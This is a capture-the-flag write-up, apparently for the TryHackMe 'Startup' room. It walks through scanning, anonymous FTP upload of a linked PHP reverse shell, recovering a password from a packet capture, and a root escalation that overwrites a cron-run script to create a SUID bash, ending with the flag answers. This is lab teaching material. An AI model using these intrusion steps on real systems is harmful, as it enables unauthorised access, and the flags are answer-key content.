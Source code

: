 # Startup

## Nmap

**nmap -A -sV 10.10.253.54**

```
Starting Nmap 7.94SVN ( https://nmap.org ) at 2023-12-09 20:49 CET
Nmap scan report for 10.10.253.54
Host is up (0.059s latency).
Not shown: 997 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to 10.9.146.46
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 4
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
| drwxrwxrwx    2 65534    65534        4096 Nov 12  2020 ftp [NSE: writeable]
| -rw-r--r--    1 0        0          251631 Nov 12  2020 important.jpg
|_-rw-r--r--    1 0        0             208 Nov 12  2020 notice.txt
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 b9:a6:0b:84:1d:22:01:a4:01:30:48:43:61:2b:ab:94 (RSA)
|   256 ec:13:25:8c:18:20:36:e6:ce:91:0e:16:26:eb:a2:be (ECDSA)
|_  256 a2:ff:2a:72:81:aa:a2:9f:55:a4:dc:92:23:e6:b4:3f (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-title: Maintenance
|_http-server-header: Apache/2.4.18 (Ubuntu)
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 10.38 seconds
                                                             
```

## FTP

**ftp 10.10.254.54**

User/Password: anonymous

```
Connected to 10.10.253.54.
220 (vsFTPd 3.0.3)
Name (10.10.253.54:samsepi0l): anonymous
331 Please specify the password.
Password: 
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> dir
229 Entering Extended Passive Mode (|||61964|)
150 Here comes the directory listing.
drwxrwxrwx    2 65534    65534        4096 Nov 12  2020 ftp
-rw-r--r--    1 0        0          251631 Nov 12  2020 important.jpg
-rw-r--r--    1 0        0             208 Nov 12  2020 notice.txt
226 Directory send OK.
```

notice.txt:

Whoever is leaving these damn Among Us memes in this share, it IS NOT FUNNY. People downloading documents from our website will think we are a joke! Now I dont know who it is, but Maya is looking pretty sus.

important.jpg:

![image](https://github.com/prox11/CTF-Writeups/assets/148764185/896a9187-64c9-4139-914e-4e05248357b4)

## Website

![image](https://github.com/prox11/CTF-Writeups/assets/148764185/10820abe-79e0-4b79-9ed3-bfdb517b75de)

**dirb http://10.10.253.54 /usr/share/wordlist/dirb/big.txt -r**

```
-----------------
DIRB v2.22    
By The Dark Raver
-----------------

START_TIME: Sat Dec  9 20:54:40 2023
URL_BASE: http://10.10.253.54/
WORDLIST_FILES: /usr/share/wordlists/dirb/big.txt
OPTION: Not Recursive

-----------------

GENERATED WORDS: 20458                                                         

---- Scanning URL: http://10.10.253.54/ ----
==> DIRECTORY: http://10.10.253.54/files/                                                                                                                
+ http://10.10.253.54/server-status (CODE:403|SIZE:277)                                                                                                  
                                                                                                                                                         
-----------------
END_TIME: Sat Dec  9 21:13:34 2023
DOWNLOADED: 20458 - FOUND: 1
```


![image](https://github.com/prox11/CTF-Writeups/assets/148764185/91ab927a-3e0a-41b7-b545-ea12ac7aad00)

## Uploading shell in FTP

```
ftp> put shell.php
local: shell.php remote: shell.php
229 Entering Extended Passive Mode (|||60868|)
150 Ok to send data.
100% |********************************************************************|  5492       54.55 MiB/s    00:00 ETA
226 Transfer complete.
5492 bytes sent in 00:00 (47.37 KiB/s)
ftp> 

```

shell: https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php

![image](https://github.com/prox11/CTF-Writeups/assets/148764185/53b188b2-19bb-470a-b62b-19e534863fc0)

![image](https://github.com/prox11/CTF-Writeups/assets/148764185/3f6a3927-f71b-478a-97fe-7d444b766a1f)

![image](https://github.com/prox11/CTF-Writeups/assets/148764185/0f1b6e0c-8504-40f1-bdde-57156dbc0973)

## PrivEsc

```
www-data@startup:/$ cat recipe.txt
cat recipe.txt
Someone asked what our main ingredient to our spice soup is today. I figured I can't keep it a secret forever and told him it was love.
www-data@startup:/$ cd incidents
cd incidents
www-data@startup:/incidents$ ls
ls
suspicious.pcapng
www-data@startup:/incidents$ python3 -m http.server 8080
python3 -m http.server 8080
Serving HTTP on 0.0.0.0 port 8080 ...
```

![image](https://github.com/prox11/CTF-Writeups/assets/148764185/bdc6afb6-9057-4df4-83da-fe9d3326e2ce)

**wireshark suspicious.pcapng**

No. 45 --> Follow TCP Stream

![image](https://github.com/prox11/CTF-Writeups/assets/148764185/8b90f6a1-f3ad-45a1-bfb9-c9cd0ec6cc4c)

password for user lennie: c4ntg3t3n0ughsp1c3

![image](https://github.com/prox11/CTF-Writeups/assets/148764185/c5211586-f3d2-4939-8822-b02b56f84430)


```
lennie@startup:~$ ls -la
total 24
drwx------ 5 lennie lennie 4096 Dec  9 20:07 .
drwxr-xr-x 3 root   root   4096 Nov 12  2020 ..
drwx------ 2 lennie lennie 4096 Dec  9 20:07 .cache
drwxr-xr-x 2 lennie lennie 4096 Nov 12  2020 Documents
drwxr-xr-x 2 root   root   4096 Nov 12  2020 scripts
-rw-r--r-- 1 lennie lennie   38 Nov 12  2020 user.txt
lennie@startup:~$ cd scripts
lennie@startup:~/scripts$ ls
planner.sh  startup_list.txt
lennie@startup:~/scripts$ ls -la
total 16
drwxr-xr-x 2 root   root   4096 Nov 12  2020 .
drwx------ 5 lennie lennie 4096 Dec  9 20:07 ..
-rwxr-xr-x 1 root   root     77 Nov 12  2020 planner.sh
-rw-r--r-- 1 root   root      1 Dec  9 20:09 startup_list.txt
lennie@startup:~/scripts$ cat startup_list.txt

lennie@startup:~/scripts$ cat planner.sh
#!/bin/bash
echo $LIST > /home/lennie/scripts/startup_list.txt
/etc/print.sh
lennie@startup:~/scripts$ cat /etc/print.sh
#!/bin/bash
echo "Done!"
lennie@startup:~/scripts$ ls -la /etc/print.sh
-rwx------ 1 lennie lennie 25 Nov 12  2020 /etc/print.sh
```

**echo "cp /bin/bash /tmp && chmod +s /tmp/bash" > /etc/print.sh**

**/tmp/bash -p**

![image](https://github.com/prox11/CTF-Writeups/assets/148764185/e84ad986-1bf5-4cd6-9732-6f9b884d3d67)

<details>
    <summary>What is the secret spicy soup recipe?</summary>
  
    love
</details>

<details>
    <summary>What are the contents of user.txt?</summary>
  
    THM{03ce3d619b80ccbfb3b7fc81e46c0e79}
</details>

<details>
    <summary>What are the contents of root.txt?</summary>
  
    THM{f963aaa6a430f210222158ae15c3d76d}
</details>
